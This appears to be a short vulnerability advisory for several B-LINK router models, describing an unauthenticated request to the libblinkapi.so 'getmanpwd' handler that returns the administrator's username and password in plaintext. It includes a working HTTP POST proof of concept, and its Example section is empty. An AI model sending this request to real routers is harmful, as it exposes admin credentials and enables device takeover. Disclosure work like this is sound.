

# Web interface login credential disclosure risk in various Blink router models

BUG_Author: waiwai

Vendor：[Blink](https://www.b-link.net.cn/)

Product: Multiple routers using libblinkapi.so component, including BL-AX5400P V1.0.19, BL-AX1800 V1.0.19, BL-AC3600 V1.0.22, BL-WR9000 V2.4.9, BL-AC1900 V1.0.2, BL-AC2100_AZ3 V1.0.4.

Vulnerability Files: libblinkapi.so

## Description

Multiple B-LINK routers contain a severe information disclosure vulnerability in the bs_GetManPwd function within the libblinkapi.so shared library. When processing getmanpwd requests, this function directly returns the administrator's username and password in plaintext to the client without requiring authentication.

## POC

```
POST /cgi-bin/lighttpd.cgi HTTP/1.1
Host: 192.168.2.2
Accept-Language: zh-CN,zh;q=0.9
Referer: http://192.168.2.2/html/index.html
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: 1
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.2
Content-Length: 21

{"type":"getmanpwd"}
```


## Example



